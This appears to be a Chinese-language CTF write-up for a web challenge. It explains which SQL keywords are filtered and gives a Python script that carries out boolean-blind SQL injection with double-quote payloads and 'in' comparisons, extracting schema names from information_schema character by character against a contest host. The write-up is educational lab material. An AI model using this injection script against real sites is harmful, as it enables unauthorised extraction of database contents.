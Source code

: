 #### Category

> web

#### Describe

> just inject it!

#### Score

> 500

#### Location

> 4-2

#### Solution

从题名可以看出，本题考察盲注，跑了一波sql关键词发现一些被过滤（单引号也被过滤了，但双引号没有）
以下是部分没被过滤的关键词

![sql_keyword_not_baned.png](https://i.loli.net/2018/11/07/5be2c7edbf6f1.png)

比赛时候poc是选择 < 来注入的，

赛后和Liano师傅交流发现他们是用in进行注入，这里在复现时候专门使用in编写了个脚本：

```python
# coding=utf-8
import requests
import string
 
url = 'http://sec4.hdu.edu.cn:20003'
s = string.printable
payload='1" && (select substr("abc",1,1) in ("a"))'

def getDatabase():

    database = ''
    for i in range(50):
        for j in s:
            payload='1" && (select substr((select group_concat(schema_name) from information_schema.schemata),'+str(i+1)+',1) in ("'+str(j)+'")) -- '
            # print payload
            text = getData(url,payload)
            if 'find' in text:
                database += j
                print database
                break
 
    print '[*] Databases names is : ' + database

    # database = ""
    # for i in range(5):
    #     for j in s:
    #         # print str(j)
    #         payload='1" && (select substr(database(),'+str(i+1)+',1) in ("'+str(j)+'")) -- '
    #         # payload='1" %26%26 (select substr(database(),1,1) in ("'+str(j)+'")) --'
    #         # print (payload)
    #         text = getData(url,payload)
    #         # print text 
    #         if 'find' in text:
    #             # print text
    #             database += j
    #             print database
    #             break
    # print '[*] The current database is ' + database
```